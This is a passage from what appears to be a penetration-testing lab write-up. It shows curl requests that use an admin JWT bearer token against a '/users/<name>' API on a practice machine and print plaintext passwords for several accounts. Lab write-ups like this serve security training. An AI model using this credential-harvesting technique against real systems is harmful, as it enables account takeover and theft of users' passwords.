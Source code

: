   {
    "ID": "2",
    "name": "Derry",
    "Role": "Web Admin"
  },
  {
    "ID": "3",
    "name": "Yuri",
    "Role": "Beta Tester"
  },
  {
    "ID": "4",
    "name": "Dory",
    "Role": "Supporter"
  }
]
{% endhighlight %}

We can put a username to the path and get additional information of user "Admin".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.137:3000/users/Admin -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
{
  "name": "Admin",
  "password": "WX5b7)>/rp$U)FW"
}
{% endhighlight %}

Similary, we can achieve credential for other users.
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.137:3000/users/Derry -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
{
  "name": "Derry",
  "password": "rZ86wwLvx7jUxtch"
}

root@kali:~# curl -s http://10.10.10.137:3000/users/Yuri -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
{
  "name": "Yuri",
  "password": "bet@tester87"
}

root@kali:~# curl -s http://10.10.10.137:3000/users/Dory -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
{
  "name": "Dory",
  "password": "5y:!xa=ybfe)/QD"
}
{% endhighlight %}
